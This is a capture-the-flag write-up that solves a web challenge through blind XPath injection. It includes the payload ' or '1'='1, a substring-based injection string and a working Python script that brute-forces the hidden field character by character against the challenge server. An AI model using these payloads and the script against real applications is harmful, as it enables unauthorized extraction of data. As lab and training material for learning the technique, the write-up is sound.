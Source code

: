 # E.Tree

Challenge text:
```
After many years where humans work under the aliens commands, they have been gradually given access to some of their management applications. Can you hack this alien Employ Directory web app and contribute to the greater human rebellion?
```
Along with an [XML file](military.xml) (but with all fields redacted).

The website had a search field where you could search for the name of military members, to see if they existed. I tried writing some different names, but only got `This millitary staff member doesn't exist.`

I assumed that the redacted XML file was what the website searched in, and after a bit of looking around I learnt of [XPATH injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection). I tested the payload `' or '1'='1`, and got the response `This millitary staff member exists.`. 

As I don't believe that there was a way for me to get any output, I had to do blind injection. As I had the format of the XML file, I knew the flag was split into the 2 locations; `//military/district[position()=2]/staff[position()=3]/selfDestructCode` and `//military/district[position()=3]/staff[position()=2]/selfDestructCode`. 

Similar to substring blind SQLi, we could give the input `' or substring((//military/district[position()=3]/staff[position()=2]/selfDestructCode),<position>,1)='<character>` to check if a character is in a position or not, we could then enumerate over every position and character to extract the data in the fields.

I wrote a Python script to do this.
```py
import json
import requests

final = ""

for x in range(len(final)+1, 100):
    for c in range(0x20, 0x80): # for every x position, try the character y (0x20 - 0x7e are the "characters" in the ASCII table)
        if c == 0x7f:
            print("done!")
            __import__("sys").exit()
        c = chr(c)

        # the flag was split into 2 locations, so i ran the script twice
        # injection = f"' or substring((//military/district[position()=2]/staff[position()=3]/selfDestructCode),{x},1)='{c}" # part 1
        injection = f"' or substring((//military/district[position()=3]/staff[position()=2]/selfDestructCode),{x},1)='{c}" # part 2
        res = requests.post("http://178.62.14.240:30683/api/search", json={"search": injection}).text
        try:
            j = json.loads(res)
        except:
            continue
        if j["message"] == "This millitary staff member exists.": # if we get a success, we know that the character we just sent in is correct for the position
            final += c
            print(final)
            break
```

This slowly but surely gave us the flag.
```
...

CHTB{Th3_3xTr4_l3v3l_4Cc3s$_
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0n
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nT
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```